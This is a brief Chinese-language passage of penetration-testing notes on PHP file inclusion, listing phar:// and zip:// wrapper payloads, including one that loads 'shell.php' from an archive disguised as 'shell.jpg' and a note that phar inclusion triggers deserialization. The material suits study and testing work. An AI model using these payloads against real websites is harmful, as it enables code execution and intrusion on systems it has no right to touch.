 

### phar协议

```
包含phar文件时,会自动进行反序列化
用法：?file=phar://压缩包/内部文件
phar://./shell.jpg/shell.php
```



### zip协议

```
需要指定绝对路径，同时将#编码为%23，之后填上压缩包内的文件
zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt

压缩包内存在子文件夹
zip://D:\phpStudy\WWW\fileinclude\test.zip%23test\phpinfo.txt
```





